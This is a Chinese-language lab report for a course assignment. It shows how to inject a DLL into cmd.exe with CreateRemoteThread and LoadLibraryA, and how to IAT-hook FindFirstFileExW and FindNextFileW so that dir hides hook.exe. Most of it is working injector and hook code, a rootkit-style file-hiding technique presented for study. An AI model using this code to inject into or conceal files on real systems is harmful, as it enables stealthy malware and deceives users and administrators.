

# 期末作业

---

## 实验目标

通过注入DLL方式实现对dir函数功能的改写和修改。
更改dir时调用的`FindFirstFile`，每次出现"hook.exe"便抹掉此结果，使得系统控制台的dir命令看不到目录下的hook.exe

---

## 实验过程

1. 确定hook函数
   * 查询资料文档了解到，windows系统在dir时调用的函数为`FindFirstFileExW`和`FindNextFileW`
   * dir显示目录下文件时调用了一次`FindFirstFileExW`和多次`FindNextFileW`，所以使用这两个函数进行hook
   * 通过dll注入操作对这两个函数进行监控，检测到调用时，执行后续操作阻碍dir的正常运行。

	```c++
	HANDLE WINAPI FindFirstFile(
		LPCSTR             lpFileName,//  查找的文件类型。例如:.txt,.ini,.cpp等后缀
		LPWIN32_FIND_DATA  lpFindFileData,//得到当前所杳找文件的一些属性，包括文件名，文件大小创建时间等
	);//根据文件名查找文件，函数执行成功返回一个搜索句柄

	BOOL FindNextFile(
	HANDLE hFindFile,                            //FindFirstFile返回的HANDLE
	LPWIN32_FIND_DATA lpFindFileData            //所杳找文件的一些属性
	);//成功返回非零，失败返回零

	typedef struct _WIN32_FIND_DATA 
	{
	DWORD dwFileAttributes; //文件属性
	FILETIME ftCreationTime; // 文件创建时间
	FILETIME ftLastAccessTime; // 文件最后一次访问时间
	FILETIME ftLastWriteTime; // 文件最后一次修改时间
	DWORD nFileSizeHigh; // 文件长度高32位
	DWORD nFileSizeLow; // 文件长度低32位
	DWORD dwReserved0; // 系统保留
	DWORD dwReserved1; // 系统保留
	TCHAR cFileName[ MAX_PATH ]; // 长文件名（最多可达 255 个字符的长文件名），带句点和扩展名
	TCHAR cAlternateFileName[ 14 ]; //8.3格式文件名（句点前最多有8个字符，而扩展名最多可以有3个字符）
	} WIN32_FIND_DATA, *PWIN32_FIND_DATA;
	```

2. 编写dllmain.cpp，其中hook的函数需更改为`FindFirstFileExW`和`FindNextFileW`

	```c
	#include <windows.h>

	#define FILENAME "hook.exe"
	LONG IATHook(
		__in_opt void* pImageBase,
		__in_opt const char* pszImportDllName,
		__in const char* pszRoutineName,
		__in void* pFakeRoutine,
		__out HANDLE* phHook
	);
	LONG UnIATHook(__in HANDLE hHook);
	void* GetIATHookOrign(__in HANDLE hHook);
	typedef HANDLE(__stdcall *LPFN_FindFirstFileExW)(
		LPCSTR             lpFileName,
		FINDEX_INFO_LEVELS fInfoLevelId,
		LPVOID             lpFindFileData,
		FINDEX_SEARCH_OPS  fSearchOp,
		LPVOID             lpSearchFilter,
		DWORD              dwAdditionalFlags
		);
	typedef BOOL(__stdcall *LPFN_FindNextFileW)(
		HANDLE             hFindFile,
		LPWIN32_FIND_DATAW lpFindFileData
		);
	HANDLE g_hHook_FindFirstFileExW = NULL;
	HANDLE g_hHook_FindNextFileW = NULL;
	HANDLE __stdcall Fake_FindFirstFileExW(
		LPCSTR             lpFileName,
		FINDEX_INFO_LEVELS fInfoLevelId,
		LPVOID             lpFindFileData,
		FINDEX_SEARCH_OPS  fSearchOp,
		LPVOID             lpSearchFilter,
		DWORD              dwAdditionalFlags
	){
		LPFN_FindFirstFileExW fnOrigin = (LPFN_FindFirstFileExW)GetIATHookOrign(g_hHook_FindFirstFileExW);
		HANDLE hFindFile = fnOrigin(lpFileName, fInfoLevelId, lpFindFileData, fSearchOp, lpSearchFilter, dwAdditionalFlags);
		while (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
			FindNextFileW(hFindFile, (LPWIN32_FIND_DATA)lpFindFileData);
		}
		return hFindFile;
	}

	BOOL __stdcall Fake_FindNextFileW(
		HANDLE             hFindFile,
		LPWIN32_FIND_DATAW lpFindFileData
	) {
		LPFN_FindNextFileW fnOrigin = (LPFN_FindNextFileW)GetIATHookOrign(g_hHook_FindNextFileW);
		BOOL rv = fnOrigin(hFindFile, lpFindFileData);
		if (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
			rv = fnOrigin(hFindFile, lpFindFileData);
		}
		return rv;
	}

	BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered) {
		switch (dwReason) {
		case DLL_PROCESS_ATTACH:
			IATHook(
				GetModuleHandle(NULL),
				"kernel32.dll",
				"FindFirstFileExW",
				Fake_FindFirstFileExW,
				&g_hHook_FindFirstFileExW
			);
			IATHook(
				GetModuleHandle(NULL),
				"kernel32.dll",
				"FindNextFileW",
				Fake_FindNextFileW,
				&g_hHook_FindNextFileW
			);
			break;
		case DLL_PROCESS_DETACH:
			UnIATHook(g_hHook_FindFirstFileExW);
			UnIATHook(g_hHook_FindNextFileW);
			break;
		}
		return TRUE;
	}
	```

3. 将.cpp文件编译生成为dll文件HookFindFileW.dll,将其放入c盘下（相同目录即可，为了方便检索选择C盘）
   * 原理同上次实验。

4. 编写Inject.cpp，将注入的进程修改为cmd.exe

```c
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int main() {
	char szDllName[] = "C:\\HookFindFileW.dll";
	char szExeName[] = "cmd.exe";

	/* Step 1 */
	PROCESSENTRY32 ProcessEntry = {};
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	bool bRet = Process32First(hProcessSnap, &ProcessEntry);
	DWORD dwProcessId = 0;
	while (bRet) {
		if (strcmp(szExeName, ProcessEntry.szExeFile) == 0) {
			dwProcessId = ProcessEntry.th32ProcessID;
			break;
		}
		bRet = Process32Next(hProcessSnap, &ProcessEntry);
	}
	if (0 == dwProcessId) {
		return 1;
	}

	/* Step 2 */
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (0 == hProcess) {
		return 1;
	}

	/* Step 3 */
	size_t length = strlen(szDllName) + 1;
	char * pszDllFile = (char *)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
	if (0 == pszDllFile) {
		return 1;
	}

	/* Step 4 */
	if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
		return 1;
	}

	/* Step 5 */
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
	if (0 == pfnThreadRtn) {
		return 1;
	}

	/* Step 6 */
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
	if (0 == hThread) {
		return 1;
	}

	/* Step 7 */
	WaitForSingleObject(hThread, INFINITE);
    printf("远程线程执行完毕!\n");
	VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
	CloseHandle(hThread);
	CloseHandle(hProcess);

	return 0;
}
```

* 实验结果截图如下
  * 首先测试dir本身功能，在根目录下执行dir命令，可以顺利列举出目录下的所有内容
  
  * 运行注入程序Inject.exe
  * 根据实验原理，此时由于开始对`FindFirstFileExW`和`FindNextFileW`函数进行监测，通过注入语句的方式修改执行内容，再次运行dir命令时应无法显示hook.exe
  
  * 实验成功

---

## 实验总结

实验中通过文档学习了解了Hook API的工作方式和实现原理，实际编写了相关程序，实现了对程序功能的修改。
本次实验通过Hook函数实现了对程序中接口调用的检测，进而修改其执行内容，已达到对软件行为进行篡改的目的。
在软件开发过程中，应当注意对函数、接口的封装，注意保护程序不被修改。

---

## 实验环境

* 虚拟机windows7环境
* 32位cmd

---

## 参考资料

1.[**利用FindFirstFile和FindNextFile查找文件或遍历文件夹**](https://blog.csdn.net/milanleon/article/details/18222197)

2.[**Windows API| Microsoft Docs**](https://docs.microsoft.com/en-us/previous-versions/aa914391(v%3dmsdn.10))

3.[**injectAllTheThings**](https://github.com/fdiskyou/injectAllTheThings)

4.**[iathook](https://github.com/tinysec/iathook)**